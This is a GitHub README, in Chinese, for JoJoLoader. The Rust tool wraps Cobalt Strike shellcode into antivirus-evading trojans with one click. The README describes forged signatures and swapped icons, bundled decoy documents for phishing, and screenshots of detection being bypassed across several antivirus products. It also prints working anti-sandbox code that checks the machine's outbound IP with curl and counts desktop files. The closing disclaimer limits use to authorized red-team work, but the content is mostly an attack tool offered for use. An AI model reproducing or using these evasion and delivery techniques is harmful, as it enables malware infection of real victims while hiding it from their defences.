 # JoJoLoader
助力红队成员一键生成免杀木马，使用rust实现 (by_hyyrent)

Help Redteam members generate Evasive Anti-virus software Trojan

开发背景
---

由于近年使用go来开发shellcodeloader越来越普遍，导致杀软对go编译程序静态查杀力度增大，尤其是某数字杀软

对之前的免杀项目千机经过多次优化尝试，更换不同的编译参数，发现效果仍不太理想，决定重构转投入rust的怀抱，因此有了这个项目的诞生

使用方式
---

和我之前开发的千机一样，同样是支持一键化生成

为了最大化的简便，选择内嵌shellcode而不是远程加载等方式，目录结构如下

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/364dd6aa-5883-40c4-b25c-5e2bd4660c63)

生成`stageless payload`

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/49ddd939-32c3-495f-8ab7-a6f649a3a138)

把 `beacon_x64.bin` （习惯使用4.7以上版本的CS，默认名称即是，其他版本自行改名）放置在当前目录下

点击 `一键生成.bat`，等待免杀木马生成

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/6ad29be8-7a42-4348-8606-113caee887f0)

输出免杀木马在 `output` 文件夹下，随机六位数命名

其中sign标签文件为自动替换签名后的免杀木马，添加图标和签名最大化bypassQVM

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b30c675-acb4-40ae-9045-1d92afbc97b7)

钓鱼场景-释放正常文档
---

贴合实战钓鱼场景，支持正常文件释放，捆绑文档存放在 `bundle` 文件夹下

默认放置打开损坏文档，实战根据需求自行修改代码

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/4ca87739-3dfc-4a07-bda0-0cf5b0c90505)

如果不需要捆绑文件，把改行注释即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b5b4ed6-5f7f-431c-9502-be82a31dd74b)

程序图标
---

在 static 目录下放置了四个常见图标，可修改`icon.rc`对应名称进行调用

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/9480ea64-e78f-4ce3-bda7-a2a6bc451688)

免杀效果展示
---
**360和火绒**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/b6fb7409-4560-493c-bf2e-a3198837ca70)

**360杀毒**

装了杀毒之后的360性能变强，qvm有时很玄学，如若碰到QVM情况尝试更换图标

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bfc2da65-49e7-4a97-bb83-9c0420edb034)

**defender**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f6c49329-8cd9-48d7-af33-130fa165c3ee)

**微步**

项目发布时现测试，测试结果为安全

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/1ebe6cba-b85e-4964-843a-1f54a279f591)

卡巴斯基 ESET

国外edr会扫描内存，需要对bin进行二开，单靠loader局限性很大，以下测试是基于二开的bin

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f5c66ab3-9034-49af-b01d-a7bc4bf12fc7)

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/5ce2e534-d1cb-4865-898b-6187dbf84d3d)

环境安装
---
https://www.rust-lang.org/zh-CN/tools/install

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/a1b8b73a-5545-4797-b2d3-b2605640b7a7)

下载安装相应的版本，双击运行，默认选择模式1进行安装，然后配置环境变量即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bb0a690c-1703-4b49-8b43-20b70de024a8)

如若安装后编译失败运行以下命令

```
rustup default stable-x86_64-pc-windows-msvc
```

反沙箱
---
反沙箱不是越多越好，只保留比较好用的两个，兼容绝大部分环境，并且尽量避免上传沙箱后虚拟主机上线

### 检查出口 IP ###

```
fn ip() {
    let output = Command::new("cmd")
        .args(&["/c", "curl -s https://myip.ipip.net/"])
        .creation_flags(CREATE_NO_WINDOW)
        .output()
        .expect("Failed to execute command");

    if !output.status.success() {
        std::process::exit(1);
    }

    let body = str::from_utf8(&output.stdout).expect("Failed to parse response");

    if body.contains("中国") {
    } else {
        std::process::exit(1);
    }
}
```

这个函数通过 `curl` 命令获取出口 IP，如果不在中国则退出程序

### 检查桌面文件数量 ###

```
fn check_desktop() {
    let desktop_path = get_desktop_path().expect("无法获取桌面路径");

    let entries = match fs::read_dir(&desktop_path) {
        Ok(entries) => entries,
        Err(_) => {
            std::process::exit(1);
        }
    };

    let file_count = entries.filter_map(|entry| entry.ok()).count();

    if file_count < 10 {
        std::process::exit(1);
    } else {
    }
}

fn get_desktop_path() -> Option<PathBuf> {
    let home_dir = dirs::home_dir()?;
    #[cfg(target_os = "windows")]
    return Some(home_dir.join("Desktop"));
    None
}
```
这个函数获取桌面路径并检查文件数量是否小于 10，如果小于 10 则退出程序

声明
---
- 仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

- 使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

